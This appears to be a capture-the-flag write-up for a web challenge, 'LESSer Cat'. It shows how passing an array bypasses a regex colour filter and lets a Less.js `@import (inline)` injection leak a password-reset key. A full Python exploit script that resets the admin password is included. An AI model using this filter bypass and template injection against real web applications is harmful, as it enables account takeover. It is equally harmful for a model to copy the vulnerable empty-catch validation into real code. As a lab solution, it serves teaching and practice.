

## LESSer Cat  



We are given a simple webpage that uses Less.js to render CSS templates into a public `image.css` file. The webpage also has an admin account, and will display the flag upon admin login.  

The parts of the backend that is of the most concern to us are the `/reset_mail` and `/pass_reset` endpoints. `/pass_reset` requires us to supply a secret key before allowing us to change the admin password. The secret key in question is generated by `/reset_mail` and stored in `mail.log`.  

```js
admin_data = {
  "admin" : "c60f85df4cd2f4e0a50908ae9df30b952dc563ce32d6907740ee751b0138346b"
}
...
app.post('/reset_mail', (req, res) => {

  // TODO
  // Make SMTP server later...

  fs.writeFileSync('./mail.log', crypto.randomBytes(16).toString('hex'));

  return res.send("Reset Mail Send.");

})

app.post('/pass_reset', (req, res) => {
  var reset_password = req.body.password;
  var reset_key = req.body.key;
  
  if(fs.existsSync("./mail.log")){

  
    if(fs.readFileSync('./mail.log', "utf8") == reset_key){

      admin_data = {
        "admin" : crypto.createHash('sha256').update(reset_password).digest('hex')
      };

      return res.send("Reset Done");
    }

  }else {

    return res.send("Reset Key is missing");

  }
  
  return res.send("Reset Key is invalid");
})
```

The main vulnerability lies in the `/color` endpoint, which uses the `colorPicker()` function to generate and save a Less.js CSS template.  

The output is saved to `image.css`, which is served through `/static`, so we can always view the rendered template.  

```js
function colorPicker(colorDict){

  var css = "";

  for (var key in colorDict){

    try{

      if(!colorDict[key].match(/^#[\w\d]{6}$/)) return false;

    } 
    catch(error){
      // console.log(error)
    }

    css += `@${key}:` + colorDict[key] + ";";

  }

  css = css + "body{ background-color: @bgcolor; color: @color; }";

  return css;
}

...

app.post('/color', (req, res) => {

  const background = req.body.bgColor;

  const font = req.body.fontColor;

  if(background === undefined || font === undefined) return res.send("Set Your Color Code!");

  var colorDict = {
    "bgcolor" : background,
    "color" : font
  }

  var css = colorPicker(colorDict);

  if (css == false) return res.sendStatus(500);

  less.render(css.toString(), (error, output) => {
  
    if(error){
      return res.send(`Less Compile Error`);
    }

    fs.writeFileSync('./static/image.css', output['css']);
    
    return res.send(`ColorPicker Done`);
  
  })

})
```

Less.js allows file imports using `@import`, so we can potentially inject an import statement into the temmplate and write the secret key in `mail.log` into the final rendered result.  

```css
@import (inline) "./mail.log"
```

However, `colorPicker()` also enforces a regex check that requires our input to be exactly `6` alphanumeric characters, which would normally make this impossible to bypass.  

Luckily, the app uses `extended` for URL parsing, so we can instead pass in our payload as an array. Invoking `.match()` on an array will cause the `try` block always to throw an error into the empty `catch()` block, so our payload never gets flagged by the filter.  

```js
app.use(bodyParser.urlencoded({ extended: true }));

...

function colorPicker(colorDict){

  var css = "";

  for (var key in colorDict){

    try{

      if(!colorDict[key].match(/^#[\w\d]{6}$/)) return false;

    } 
    catch(error){
      // console.log(error)
    }
    ...
```

After leaking the secret key into `mail.log`, we just have to visit `/image.css` to fetch it and use it to reset the admin password.  

The webpage will then display the flag upon login.  

```python
res = s.post(f"{url}/color", data={
    'bgColor[]': '#000000;@import (inline) "./mail.log"',
    'fontColor': '#000000'
})

res = s.get(f'{url}/image.css')

key = res.text.split("\n")[0].strip()

# reset admin password
pwd = 'hacked'

res = s.post(f"{url}/pass_reset", data={
    'password': pwd,
    'key': key
})

if 'done' in res.text.lower():
    print("> Resetted password")

# get flag
res = s.post(f'{url}/login', data={
    'username': 'admin',
    'password': pwd
})

print("Flag:", res.text)
```

Flag: `flag{LESSerCat_with_LESSJS_SSTI!}`